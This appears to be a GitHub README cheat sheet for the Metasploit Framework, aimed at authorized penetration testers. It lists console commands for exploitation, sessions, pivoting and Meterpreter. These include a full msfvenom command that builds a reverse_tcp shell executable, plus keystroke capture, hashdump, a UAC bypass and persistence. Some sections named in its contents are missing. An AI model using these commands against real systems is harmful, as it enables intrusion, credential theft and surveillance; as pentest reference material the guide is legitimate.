

# The Complete Metasploit Guide (2026 Edition)

A comprehensive resource covering Metasploit Framework from core commands to database-driven workflow, session management, and pivoting.

> ⚠️ **Legal & Ethical Use**
> Metasploit is a dual-use exploitation framework. Only point it at systems you own, systems you have explicit written authorization to test, or a clearly in-scope lab (Metasploitable, HackTheBox, TryHackMe, your own VM range). Unauthorized use is illegal in most jurisdictions regardless of intent.

## Table of Contents
- [Core Commands](#core-commands)
- [Module Management](#module-management)
- [Module Search Filters](#module-search-filters)
- [Exploitation](#exploitation)
- [Session Management](#session-management)
- [Auxiliary Modules](#auxiliary-modules)
- [Post-Exploitation](#post-exploitation)
- [Network Configuration & Pivoting](#network-configuration--pivoting)
- [Database Integration & Workspaces](#database-integration--workspaces)
- [Resource Scripts & Automation](#resource-scripts--automation)
- [Advanced Module Commands](#advanced-module-commands)
- [Payload Customization](#payload-customization)
- [Exploit Adjustments](#exploit-adjustments)
- [Job Control](#job-control)
- [Environmental Settings](#environmental-settings)
- [Meterpreter Commands](#meterpreter-commands)
- [Privilege Escalation and Persistence](#privilege-escalation-and-persistence)
- [Logging and Reporting](#logging-and-reporting)
- [Standard Engagement Workflow](#standard-engagement-workflow)
- [Practice Labs](#practice-labs)
- [Learn More & Contribute](#learn-more--contribute)

---

## Core Commands
- **Help Menu**: `help` or `?` - Display the help menu with available commands.
- **Version**: `version` - Show the version of Metasploit.
- **Exit**: `exit` - Exit the Metasploit console.
- **Run Shell Command**: `ping -c 1 <ip>` - msfconsole passes unrecognized commands straight to the OS shell, so basic system commands work inline.

## Module Management
- **Search Modules**: `search <keyword>` - Search for specific modules.
- **Load Module**: `use <module>` - Load a module (e.g., `use exploit/windows/smb/ms17_010_eternalblue`).
- **Module Info**: `info` - Show full details (description, references, targets) for the currently loaded module.
- **Back Out**: `back` - Unload the current module and return to the base prompt.
- **Show Options**: `show options` - Display the options for the loaded module.
- **Set Option**: `set <option> <value>` - Set an option (e.g., `set RHOSTS 192.168.1.100`).
- **Show Payloads**: `show payloads` - List available payloads for the selected module.
- **Set Payload**: `set PAYLOAD <payload>` - Set a specific payload (e.g., `set PAYLOAD windows/meterpreter/reverse_tcp`).
- **Show Targets**: `show targets` - List available targets for the module.
- **Set Target**: `set TARGET <target_id>` - Specify the target ID.

## Module Search Filters

`search` supports keyword filters so you can narrow 2,000+ exploits and thousands of auxiliary/post modules down fast:

```
search type:exploit platform:windows smb
search cve:2021-34527
search name:eternalblue
search author:hdm
search type:exploit platform:windows rank:excellent
search platform:linux type:auxiliary
```

| Filter | Narrows by |
|---|---|
| `type:` | `exploit`, `auxiliary`, `post`, `payload`, `encoder`, `nop` |
| `platform:` | `windows`, `linux`, `osx`, `android`, `unix` |
| `cve:` | A specific CVE identifier |
| `name:` | Substring match on the module name |
| `author:` | Module author handle |
| `rank:` | Reliability rating (`excellent`, `great`, `good`, `normal`, `average`, `low`, `manual`) |

## Exploitation
- **Check Vulnerability**: `check` - Check if the target is vulnerable, without exploiting it.
- **Execute Exploit**: `exploit` or `run` - Execute the exploit.
- **Background Job**: `exploit -j` - Run the exploit in the background as a job.
- **No Interaction**: `exploit -z` - Launch the exploit but do not interact with the session.

## Session Management
- **List Sessions**: `sessions -l` - List all active sessions.
- **Interact with Session**: `sessions -i <id>` - Interact with a specific session by its ID.
- **Kill Session**: `sessions -k <id>` - Kill a specific session.
- **Upgrade Shell to Meterpreter**: `sessions -u <id>` - Upgrades a plain command shell session to a full Meterpreter session.
- **Background Session**: `Ctrl+Z` (inside a session) - Background the current session without killing it.
- **Shell-to-Meterpreter Module**: `use post/multi/manage/shell_to_meterpreter` - Same upgrade, run as a post module against a specific session ID.

## Auxiliary Modules
- **Show Auxiliary**: `show auxiliary` - Display auxiliary modules.
- **Load Auxiliary Module**: `use auxiliary/scanner/<module>` - Load an auxiliary module (e.g., `use auxiliary/scanner/portscan/tcp`).
- **Common Scanner Examples**: `auxiliary/scanner/http/http_version`, `auxiliary/scanner/ssh/ssh_version`, `auxiliary/scanner/smb/smb_version` - lightweight service-identification scanners, useful before committing to a heavier exploit module.

## Post-Exploitation
- **Use Post Module**: `use post/<module>` - Use a post-exploitation module.
- **Run Post Module**: `run` - Execute the post-exploitation module.
- **Target a Specific Session**: `set SESSION <id>` - Point a post module at a particular active session before running it.

## Network Configuration & Pivoting
- **Set Global Option**: `setg <option> <value>` - Set a global option (e.g., `setg RHOSTS 192.168.1.0/24`).
- **Add Route**: `route add <subnet> <netmask> <session_id>` - Route traffic for an internal subnet through a compromised host's session.
- **Show Routes**: `route print` - List currently configured pivot routes.
- **Port Forwarding**: `portfwd add -l <local_port> -p <remote_port> -r <remote_host>` - Forward ports through the compromised host.
- **List Forwards**: `portfwd list` - Show active port forwards.
- **SOCKS5 Proxy**: `use auxiliary/server/socks_proxy` then `run` - Stand up a SOCKS proxy over a session so external tools (proxychains, browsers) can reach the pivoted network.



## Database Integration & Workspaces
- **Start the Database**: Metasploit uses PostgreSQL for host/service/loot storage; make sure it's initialized before a session (`msfdb init` at the OS shell, once).
- **Connect to Database**: `db_connect` - Connect to a database.
- **Workspaces**: `workspace` - List workspaces. `workspace -a <name>` - create and switch to a new workspace so different engagements don't mix data.
- **Nmap Straight into the DB**: `db_nmap -sV -sC <target>` - Runs Nmap and automatically imports hosts/services into the current workspace, instead of scanning separately and importing later.
- **Import Existing Scan**: `db_import <file.xml>` - Import results from a standalone Nmap/other scan.
- **Export Data**: `db_export -f xml <file.xml>` - Export the current workspace's data.
- **Show Hosts**: `hosts` - Display hosts from the database.
- **List Services**: `services` - List services discovered on the hosts.
- **Show Vulnerabilities**: `vulns` - Show vulnerabilities Metasploit has recorded.
- **Credentials Store**: `creds` - List captured/known credentials tied to the workspace.

## Resource Scripts & Automation
- **Run Resource File**: `resource <file>` - Run a set of msfconsole commands from a `.rc` file.
- **Autorun on Launch**: `msfconsole -r <file.rc>` - Start msfconsole and immediately execute a resource script.
- **One-Liner Launch**: `msfconsole -x '<commands separated by ;>'` - Run inline commands non-interactively.
- **Record a Session to Script**: `spool <file.rc>` - Start logging every command/output to a file; `spool off` stops it. Handy for building a repeatable resource script or a clean audit trail for a report.
- **Generate an RC From History**: `makerc <file.rc>` - Writes your recent command history out as a reusable resource script.

## Advanced Module Commands
- **Show Encoders**: `show encoders` - Lists the encoder modules Metasploit ships with.
- **Set Encoder**: `set ENCODER <encoder>` - Selects an encoder for a payload module.
- **Show Evasion**: `show evasion` - Lists evasion-category modules available for the current exploit.
- **Set Evasion**: `set EVASION <evasion_method>` - Configures an evasion module option.

*(This guide documents that these commands exist, matching Metasploit's own `help` output — it does not cover which encoder/evasion combination defeats which specific antivirus or EDR product; see the scope note at the top.)*

## Payload Customization
- **Generate (in-console)**: `generate` - Create a standalone payload with the currently configured options.
- **msfvenom (standalone tool)**: Generates a payload file outside of msfconsole.
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o payload.exe
  ```
- **List Options**: `msfvenom --list payloads`, `msfvenom --list formats`, `msfvenom --list encoders` - Enumerate what's available.
- **Common Flags**: `-p` payload, `-f` output format, `-o` output file, `-a` architecture, `--platform` target OS.

## Exploit Adjustments
- **Set AutoRunScript**: `set AutoRunScript <script>` - Set a script to execute automatically after exploit success.
- **Set LHOST**: `set LHOST <IP>` - Set the local IP address for reverse connections.
- **Set LPORT**: `set LPORT <Port>` - Set the local port for reverse connections.
- **Keep Handler Alive**: `set ExitOnSession false` - Common on `exploit/multi/handler` so the listener keeps running and can catch multiple callbacks instead of exiting after the first.

## Job Control
- **List Jobs**: `jobs` - List all running jobs.
- **Verbose List**: `jobs -l` - List jobs with additional detail.
- **Kill Job**: `jobs -k <job_id>` - Kill a specific job.
- **Terminate All Jobs**: `jobs -K` - Terminate all jobs.

## Environmental Settings
- **Set Global RHOSTS**: `setg RHOSTS <range>` - Set a global range of target hosts.
- **Unset Global Option**: `unsetg <option>` - Remove a globally set option.
- **Save Current Settings**: `save` - Persist current global datastore settings to `~/.msf4/config` so they survive a restart.
- **Run Resource File**: `resource <file>` - Run a set of commands from a file (see [Resource Scripts](#resource-scripts--automation)).

## Meterpreter Commands
- **System Info**: `sysinfo` - Display target system information.
- **Get User ID**: `getuid` - Show the user ID of the current session.
- **List Processes**: `ps` - List running processes on the target.
- **Migrate**: `migrate <pid>` - Move the Meterpreter session to a different process.
- **Upload**: `upload <local_path> <remote_path>` - Upload files to the target.
- **Download**: `download <remote_path> <local_path>` - Download files from the target.
- **Start Keystroke Capture**: `keyscan_start` - Start capturing keystrokes.
- **Dump Keystrokes**: `keyscan_dump` - Retrieve captured keystrokes.
- **Screenshot**: `screenshot` - Capture a screenshot of the target's screen.
- **Hashdump**: `hashdump` - Dump the hashes of local user passwords (requires appropriate privileges).

## Privilege Escalation and Persistence
- **Get System Privileges**: `getsystem` - Attempt to gain system-level privileges via known local techniques.
- **Bypass UAC**: `use exploit/windows/local/bypassuac` - Local module to bypass User Access Control.
- **Run Persistence**: `run persistence` - Install a persistence mechanism (module-dependent).

*(As with the evasion commands above, this is command-reference level only — not a walkthrough of which technique defeats a specific patched/unpatched target.)*

## Logging and Reporting
- **Display Loot**: `loot` - Display collected loot from exploits or scans.
- **Notes**: `notes` - View or add notes for specific hosts.
- **Session Log**: `spool <file>` - Log the full console transcript for later inclusion in a report (see [Resource Scripts](#resource-scripts--automation)).

---

## Learn More & Contribute

* [Official Metasploit Documentation](https://docs.metasploit.com/)
* [Metasploit Unleashed (Offensive Security)](https://www.offsec.com/metasploit-unleashed/)
* [Metasploit Framework on GitHub](https://github.com/rapid7/metasploit-framework)
* [Rapid7 Metasploit Weekly Wrap-Up Blog](https://www.rapid7.com/blog/tag/metasploit-weekly-wrapup/) — new modules and framework changes, posted most Fridays.

> **Welcome to the Repository!**
> This guide is intended to be a living cheat sheet for authorized penetration testers and lab learners. Feel free to star, fork, and share your own workflow tips and resource scripts via pull requests. Happy (authorized) hacking!
